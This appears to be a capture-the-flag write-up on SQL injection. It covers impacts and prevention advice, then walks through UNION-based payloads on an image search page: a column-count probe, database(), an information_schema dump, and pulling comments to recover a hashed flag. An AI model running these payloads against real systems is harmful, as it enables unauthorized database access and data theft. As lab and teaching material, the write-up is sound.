 # SQLI 1

## SQL Injection impacts

The impact SQL injection can have on a business is far-reaching. A successful attack may result in the unauthorized viewing of user lists, the deletion of entire tables and, in certain cases, the attacker gaining administrative rights to a database

## preventing injection flaws 

Preventing injection requires keeping data separate as far away as possible from commands and queries.

- The preferred option is to use a safe API providing a parameterized interface
- Use positive or “whitelist” server-side input validation that only allows certain values as input
- For needed dynamic queries, escape special characters using the specific escape syntax for that interpreter
- Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection


## Attack scenario

On search image I tried basic sqli 

> 1 or 1=1

I got all the Images so basically there is sqli in search image page second thing to do

> 1 union select 1

got an error:

> The used SELECT statements have a different number of columns

so I need to add more columns till i got the exact number o columns 

> 1 union select 1,2

the message error is gone, now we need to change 1 with 0 so we display only data we want.

> 0 union select 1,2

Lets deisplay the database namme to do that we can change 1 or 2 with database function

>  0 union select 1,database()
>  
>  ID: 0 UNION select 1,database() 
>  
> First name: 1
> 
> Surname : Member_images

Now we need to find tables and their columns to do so lets try

> 0 UNION select 1,concat(table_name, 111,column_name) from information_schema.columns 

It worked so basically we concat table and column name I added 111 to separate them because we cant put a char or a string
we got alot of rows, lets search for users, we found users table lets display every column on users table

> 0 UNION select 1,concat(id,url,title,comment) from list_images

fifth image got a sus comment lets decrypt it

> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46


we got albatroz => tolower() => albatroz => sha256 => f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188

